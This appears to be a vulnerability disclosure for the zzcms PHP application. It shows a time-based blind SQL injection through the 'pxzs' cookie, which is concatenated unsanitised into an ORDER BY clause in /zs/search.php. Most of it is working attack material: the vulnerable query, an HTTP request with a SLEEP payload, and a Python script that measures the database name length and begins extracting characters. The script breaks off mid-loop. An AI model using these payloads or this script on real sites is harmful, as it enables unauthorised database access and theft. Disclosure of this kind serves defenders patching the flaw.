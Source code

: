 and $px used in the following code to query in mysql bettween 403 and 407

```php
$sql="select id,proname,prouse,shuxing_value,img,province,city,xiancheng,sendtime,editor,elite,userid,comane,qq,groupid,renzheng,tag from zzcms_main where passed=1 ";
$sql=$sql.$sql2;
$sql=$sql." order by groupid desc,elite desc,".$px." desc limit $offset,$page_size";
//echo $sql;
$rs = query($sql); 
```

 so attack could make poc like:

```http
GET /zs/search.php HTTP/1.1
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: pxzs=(SELECT(1)FROM(SELECT(SLEEP((3-length(database()))*3)))abcd)


```

the python3 poc as following:

```python
#/usr/local/bin/python3
# -*-coding:utf-8-*-
 
import requests
import time

def zs_sqli(host):
    payloads = '-.@_abcdefghijklmnopqrstuvwxyz0123456789{}'
     
    result = ""

    headers = {"Host": host,
               "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.115 Safari/537.36",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate",
               "Connection": "keep-alive",
               }
    cookies = {"bdshare_firstime":"", "PHPSESSID":"", "UserName":"", "PassWord":""}
    url = "http://%s/zs/search.php" % host
    #proxies = {"http":"http://127.0.0.1:8080"}
    proxies = ""
    rlen = 0

    print("Start\n")

    for i in range(1,100):
        pxzs = "(SELECT(1)FROM(SELECT(SLEEP((%d-length(database()))*1)))abcd)" %i
        cookies["pxzs"] = pxzs
        starttime = time.time()

        res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
        if time.time() - starttime > 1:
            rlen = i - 1
            print("the length of current database is : %d\n" %rlen)
            break

    for j in range(1, rlen+1):
        for payload in payloads:
            char = ord(payload) + 1
            starttime = time.time()
```